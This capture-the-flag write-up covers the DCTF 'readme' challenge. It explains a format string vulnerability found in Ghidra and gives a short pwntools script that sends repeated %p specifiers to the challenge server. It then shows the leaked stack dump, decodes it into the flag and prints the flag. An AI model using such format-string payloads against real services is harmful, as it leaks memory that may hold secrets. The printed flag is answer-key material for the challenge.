

# Readme

## Description

Read me to get the flag.

`nc dctf-chall-readme.westeurope.azurecontainer.io 7481`

[readme](readme)

## Solution

First step let's decompile the binary with Ghidra. In the `main` function (the binary is not stripped) we can easily find the function `vuln` and after a brief looking it was easy to spot the format string vulnerability: there is a `printf` function with a user-controlled buffer.



The idea is send some `%x` / `%d` / ` %s` / `%p` in order to dump the flag just readed and placed in the `flag_buffer` array.

```python
from pwn import *

elf = ELF('./readme')
p = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)
payload = '%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p' #bounch of %p

p.sendline(payload)
p.recvline()
p.interactive()
```

The output of the python script is:

```
┌──(kali㉿kali)-[~/Desktop/dragonsec/readme]
└─$ python3 readmyb00th0l3.py
[*] '/home/kali/Desktop/dragonsec/readme/readme'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dctf-chall-readme.westeurope.azurecontainer.io on port 7481: Done
[*] Switching to interactive mode
hello 0x7ffe59b6a440(nil)(nil)0x60x6(nil)0x55c5388bc2a00x77306e7b667463640x646133725f30675f0x30625f656d30735f0x7f7300356b300x70257025702570250x70257025702570250x7025702570257025[*] Got EOF while reading in interactive
```

Now with a simple recovery of the stack dumped we can spot the flag:

```
  RAW BYTE        ASCII    ASCII (inverted little-endian)
55cff83cd2a0     --junk--
77306e7b66746364 w0n{ftcd dctf{n0w
646133725f30675f da3r_0g_ _g0_r3ad
30625f656d30735f 0b_em0s_ _s0me_b0
7ff900356b30     .ù5k0    0k5}
7025702570257025 p%p%p%p%
7025702570257025 p%p%p%p%
7025702570257025 p%p%p%p%
```

#### **FLAG >>** `dctf{n0w_g0_r3ad_s0me_b00k5}`
